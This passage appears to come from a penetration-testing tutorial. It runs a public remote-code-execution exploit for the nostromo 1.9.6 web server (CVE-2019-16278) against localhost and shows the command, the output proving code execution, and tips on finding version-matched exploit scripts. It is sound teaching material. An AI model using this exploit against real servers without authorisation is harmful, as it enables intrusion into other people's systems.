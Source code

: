 ```
# Exploit Title: nostromo 1.9.6 - Remote Code Execution
# Date: 2019-12-31
# Exploit Author: Kr0ff
# Vendor Homepage:
# Software Link: http://www.nazgul.ch/dev/nostromo-1.9.6.tar.gz
# Version: 1.9.6
# Tested on: Debian
# CVE : CVE-2019-16278

cve2019_16278.py  # This line needs to be commented.

#!/usr/bin/env python
```

Fixing that, let's try and run the program again.

```
user@linux$ python2 47837.py 127.0.0.1 80 id


                                        _____-2019-16278
        _____  _______    ______   _____\    \
   _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       \
|     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  \
| \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/




HTTP/1.1 200 OK
Date: Fri, 03 Feb 2023 04:58:34 GMT
Server: nostromo 1.9.6
Connection: close

uid=1001(_nostromo) gid=1001(_nostromo) groups=1001(_nostromo)
```

Boom! We have RCE. Now it's important to note that most scripts will tell you what arguments you need to provide. Exploit developers will rarely make you read potentially hundreds of lines of code just to figure out how to use the script.

It is also worth noting that it may not always be this easy. Sometimes you will just be given a version number, like in this case, but other times you may need to dig through the HTML source or even take a lucky guess on an exploit script. But realistically, if it is a known vulnerability, there's probably a way to discover what version the application is running.
